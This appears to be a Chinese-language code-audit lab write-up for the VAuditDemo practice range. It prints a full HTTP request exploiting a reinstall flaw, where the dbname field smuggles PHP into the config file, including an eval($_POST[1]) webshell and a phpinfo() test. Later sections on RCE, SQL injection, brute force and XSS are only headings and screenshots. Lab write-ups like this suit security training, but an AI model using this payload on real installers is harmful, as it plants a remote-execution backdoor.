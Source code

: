 

# 代码审计

### VAuditDemo靶场

![image-20240925155611001](C:/Users/24937/AppData/Roaming/Typora/typora-user-images/image-20240925155611001.png)

------



### 重装漏洞复现

>  相关代码

![image-20240925155830110](C:/Users/24937/AppData/Roaming/Typora/typora-user-images/image-20240925155830110.png)

> 使用bp抓包



![image-20240925160740544](C:/Users/24937/AppData/Roaming/Typora/typora-user-images/image-20240925160740544.png)

> 修改dataname

```php
//完整payload

POST /install/install.php HTTP/1.1
Host: 192.168.1.52:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: http://192.168.1.52:8081
Connection: keep-alive
Referer: http://192.168.1.52:8081/install/install.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

dbhost=127.0.0.1&dbuser=root&dbpass=root&dbname=test2;-- -";@eval($_POST[1]);//&Submit=%E5%AE%89%E8%A3%9D
```



```php
dbhost=localhost&dbuser=root&dbpass=root&dbname=test2;-- -";phpinfo();//&Submit=%E5%AE%89%E8%A3%9D

dbhost=127.0.0.1&dbuser=root&dbpass=root&dbname=test2;-- -";@eval($_POST[1]);//&Submit=%E5%AE%89%E8%A3%9D

exp;-- -";phpinfo();//
```

![image-20240925170408704](C:/Users/24937/AppData/Roaming/Typora/typora-user-images/image-20240925170408704.png)

> 访问首页

![image-20240925170505142](C:/Users/24937/AppData/Roaming/Typora/typora-user-images/image-20240925170505142.png)



------

### 远程代码执行漏洞

> 源码位置

![image-20240925193823973](./assets/image-20240925193823973.png)

> 执行展示

![image-20240925193711014](./assets/image-20240925193711014.png)

------

### 搜索框sql注入



> http://192.168.71.48:81/search.php?search=1

![image-20240925200443195](./assets/image-20240925200443195.png)

> 执行效果

![image-20240925200544589](./assets/image-20240925200544589.png)

------

### 登录框可爆破

![image-20240925203055163](./assets/image-20240925203055163.png)

------

### XSS

![image-20240925204103239](./assets/image-20240925204103239.png)

------

### 留言搜索框sql注入

![image-20240925204354762](./assets/image-20240925204354762.png)

------

